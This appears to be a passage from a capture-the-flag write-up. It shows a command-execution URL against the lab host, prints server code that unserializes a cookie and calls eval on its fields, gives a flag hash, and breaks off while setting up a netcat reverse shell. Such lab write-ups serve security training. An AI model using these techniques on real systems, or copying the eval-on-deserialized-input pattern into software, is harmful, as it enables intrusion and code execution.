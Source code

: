 The user flag is not immediately visible, so we will have to go looking for that later.  In the meantime, we can take a look at server.js:

```
http://10.10.10.85:8002/?cmd=cat server.js
```

```javascript
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) { 
     var sum = eval(obj.num + obj.num);
     res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
   }else{
     res.send("An error occurred...invalid username type"); 
   }
}else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("<h1>404</h1>");
});
app.listen(3000);
```
So the script works the way we thought it did.  It calls eval on the num field added to itself.  This opens the application to potential abuse such as what we have demonstrated here.

After poking around, the flag is in the Documents folder:
![Document folder listing](screenshots/7_sun_documents_folder.PNG)

We can use our web server to get the contents of the flag file:
![User Flag](screenshots/8_user_flag.PNG)
```9a093cd22ce86b7f41db4116e80d0b0f```

## Root Flag
There is another file in the directory: script.py
![script.py](screenshots/9_documents_scriptpy.PNG)
```python
print "Script is running..."
```
Since Python is likely on the box, we can use our server to get a a reverse shell.  We will set up a netcat listener on our local box:
```bash
# You can use whatever port you would like
```